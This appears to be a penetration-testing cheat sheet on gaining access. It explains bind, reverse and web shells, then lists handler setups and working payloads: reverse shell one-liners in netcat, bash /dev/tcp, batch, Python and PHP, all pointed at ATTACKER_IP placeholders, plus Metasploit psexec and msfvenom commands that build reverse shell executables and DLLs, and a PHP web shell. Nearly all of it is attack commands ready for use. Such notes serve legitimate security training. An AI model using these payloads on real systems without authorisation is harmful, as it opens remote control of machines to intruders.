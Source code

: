 ```yaml
---
title: 3 – Reverse Shell
summary: Gaining Access step – a note for obtaining a reverse shell on the target.
description: Gaining Access step – a note for obtaining a reverse shell on the target.
---
```


# Reverse vs Bind vs Web Shell

---

### Bind Shell

**The code is used to start a listener attached to a shell on the target.** 
Then we can connect to the port to obtain remote code execution. 
This has the advantage of not requiring any configuration on our network, but may be prevented by firewalls protecting the target.

### Reverse Shell

**The code makes the target to connects back to the attacker computer.** 
Reverse shells are a good way to bypass firewalls. The drawback is that we need to configure our network to accept the shell: we need to set up an handler.

### Web Shell

**The code allows the attacker to send shell commands to the target server via a web page hosted on this server.**

# Handlers

---

### NETCAT


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on port 2112

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

# Reverse Shell

---

### Ressources

[PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

[Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

### NETCAT


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

---

### BASH


 > 
 > **<font color=red>bash -i >& /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1</font>**</br>
 > Reverse Shell.

---

### BAT


 > 
 > **<font color=red>@echo off nc.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>-e cmd.exe</font>**</br>
 > Reverse Shell.

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("</font>\[ATTACKER_IP\]<font color=red>",</font>\[ATTACKER_PORT\]<font color=red>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</font>**</br>
 > Reverse Shell.

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>exec("/bin/bash -c 'bash -i > /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1'");</font>**</br>
 > **<font color=red>?\></font>**</br>
 > Very simple reverse shell.

Fancy reverse shell:
**[Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**
Location on Kali: <font color=lightblue>/usr/share/webshells/php/php-reverse-shell.php</font>

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

---

### MSVENOM (Reverse Shell Generator)


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.

# Web Shell

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>system($\_GET\["</font>cmd<font color=red>"\]);</font>**</br>
 > **<font color=red>?></font>**</br>
 > Web shell. After upload, go to http://\[TARGET_IP\]/myWebShell.php?cmd=whoami
